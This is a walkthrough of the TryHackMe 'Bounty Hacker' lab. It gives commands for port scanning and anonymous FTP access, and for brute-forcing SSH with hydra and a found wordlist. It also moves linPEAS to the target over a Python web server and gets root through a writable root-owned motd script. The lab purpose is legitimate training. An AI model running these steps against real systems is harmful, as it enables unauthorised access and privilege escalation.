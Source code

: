 # Bounty Hacker

## Disclaimer

This writeup is for a room located on TryHackMe. If you would like to attempt the room, please visit it [here](https://tryhackme.com/room/cowboyhacker).

## Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

# Task 1

Deploy the machine by clicking the **Deploy** button.

# Task 2

After the machine has finished booting up, run the following command to reveal the open ports on the network (If using personal Linux machine, remember to use OpenVPN):

```
nmap -sV -sC -Pn
```

After nmap is finished scanning, our output shows three open ports:

```
21 | ftp
22 | ssh
80 | http
```

# Task 3

Hint: Have you visited ftp?

Thanks to this hint, we know to use the ftp server that we found in the nmap scan. So for this to work, we need to use the following command:

```
ftp ${MachineIP}
```

To log into the ftp server, we will be using the _anonymous_ username to access the ftp server. This was mentioned in the nmap scan.

After searching around the ftp, we find a file within the _dir_ directory. We notice there's a text file called _task.txt_. We can view this file directly in the ftp terminal using the following command:

```
get task.txt -
```

We now have our username!

After finding this task.txt file, we will notice there is another file called locks.txt, and it looks like a bunch of strange passwords. Let's use the get command again to save this on our machine for a future task.

```
get locks.txt
```

# Task 4

Hint: What is on port 22?

This task is just looking for the service running on port 22 (Check nmap scan output).

# Task 5

Hint: Hydra may be able to help.

Since we discovered the username, we can now ssh, but where is the password?

Remember that locks.txt file we discovered earlier in the ftp? It's now time to scan the file and find the password for our user!

Since the question mentions hydra, we are going to be using this command to find any available passwords for the user:

```
hydra -t 4 -V -l ${User} -P /usr/share/wordlists/locks.txt ssh://${machineIP}
```

Now that we've obtained the password, let's move on to finding the user.txt file for task 6!

# Task 6

To begin accessing the system, we have to ssh in with our credentials. We can use the following command to gain access:

```
ssh ${user}@${MachineIP}
```

We're in!

We can also run this within the targets terminal to see if we have root privileges:

```
sudo -l
```

After we run a simple command to see the available items in the directory, we see the user.txt file, which has our first flag!

Commands:

```
ls
cat user.txt
```

# Task 7

All that's left is to find the root.txt and complete the CTF!

The easiest way to accomplish this is by using linPEAS & a python server, so we're gonna start by getting a python server up and running with the command (Remember to do this in your root terminal, not as the user!):

```
sudo python3 -m http.server 80
```

Now to actually obtain the script. We need to create a directory (I called mine LinEnum), wget the actual linPEAS script from the GitHub repository, and then transfer the file over to the target machine to run the exploit.

Here are the commands I used (This can be done multiple ways):

```
mkdir LinEnum
cd LinEnum
wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh"
```

Now we need to move back over to the users terminal, and since we have it saved on our server, let's move it over to the target machine (Remember to use this command in the target's terminal).

Note: If using the THM cloud Kali Linux machine, the PrivateIP is available [here](https://tryhackme.com/my-machine).

```
wget "http://${PrivateIP}/linpeas.sh"
```

To make our linPEAS script executable, we simply do this command (Notice the color change when we run this command):

```
chmod +x linpeas.sh
```

Time to run the script!

```
./linpeas.sh
```

After a few minutes, the script should finish running on the target machine. After sifting through all the returned results, we see a file called _/etc/update-motd.d/00-header_ (Notice how it's highlighted).

After locating this file, it's time to change the directory over to it:

```
$ cd /etc/update-motd.d
$ ls -la
```

This will show us that the 00-header file we found is actually owned by root.

The easiest way to do this is by using nano:

```
nano 00-header
```

Now that we have the file open, let's edit the file so that the next time we log in through ssh, we will see the root.txt!

For this, we just need to add the following command at the very bottom of the open file:

```
cat /root/root.txt
```

_ctrl + x to save the file_

After completing all the above tasks, all we have to do is log out of the ssh shell and log back in. You'll see the root.txt flag is located directly in the login terminal screen!

```
ssh ${user}@${MachineIP}
```

# Congratulations!

Shoutout to [Sevuhl](https://tryhackme.com/p/Sevuhl) for creating such a cool room!

# Extra

This room is based on an anime called Cowboy Bebop (One of my favorites!). You can check it out [here](https://www.imdb.com/title/tt0213338/).

## YouTube Version

I will be posting a video covering this writeup very soon!
